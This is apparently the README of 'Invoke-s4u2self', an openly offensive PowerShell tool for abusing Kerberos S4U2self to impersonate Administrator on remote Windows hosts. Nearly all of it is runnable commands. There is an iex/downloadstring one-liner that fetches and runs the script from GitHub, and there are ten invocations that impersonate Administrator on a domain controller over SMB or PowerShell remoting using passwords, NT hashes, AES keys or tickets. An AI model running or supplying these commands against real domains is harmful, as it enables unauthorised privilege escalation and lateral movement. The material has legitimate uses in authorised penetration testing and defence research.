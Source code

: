 # Invoke-s4u2self
A tool that automates s4u2self abuse to gain access to remote hosts

Run as follows:

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-SessionHunter/main/Invoke-s4u2self.ps1')
```

### SMBRemoting

```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -SMBRemoting -Password MachinePassword
```
```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -SMBRemoting -NTHash 22a151bd3056ac739718f73dfe5f9614
```
```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -SMBRemoting -AES256 d01c9d4441caf093ce018c432c48d50efc1c979a984d769cc0db76d6e5c05ab8
```
```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -SMBRemoting -Ticket doIFgjCCBX6gA......BsNZmVycmFyaS5sb2NhbA==
```
```
Invoke-s4u2self -ComputerName DC01 -Domain ferrari.local -DomainController DC01.ferrari.local -Impersonate Administrator -SMBRemoting -NTHash 22a151bd3056ac739718f73dfe5f9614
```


### PSRemoting

```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -PSRemoting -Password MachinePassword
```
```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -PSRemoting -NTHash 22a151bd3056ac739718f73dfe5f9614
```
```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -PSRemoting -AES256 d01c9d4441caf093ce018c432c48d50efc1c979a984d769cc0db76d6e5c05ab8
```
```
Invoke-s4u2self -ComputerName DC01 -Impersonate Administrator -PSRemoting -Ticket doIFgjCCBX6gA......BsNZmVycmFyaS5sb2NhbA==
```
```
Invoke-s4u2self -ComputerName DC01 -Domain ferrari.local -DomainController DC01.ferrari.local -Impersonate Administrator -PSRemoting -NTHash 22a151bd3056ac739718f73dfe5f9614
```

![image](https://github.com/Leo4j/Invoke-s4u2self/assets/61951374/b9075667-bee3-40b6-bf6e-e4d227ac6ac9)

![image](https://github.com/Leo4j/Invoke-s4u2self/assets/61951374/ab213a41-dcbf-4b48-a67c-e0ebe478be12)


### Dependencies:
Invoke-SMBRemoting: https://github.com/Leo4j/Invoke-SMBRemoting

Rubeus: https://github.com/GhostPack/Rubeus
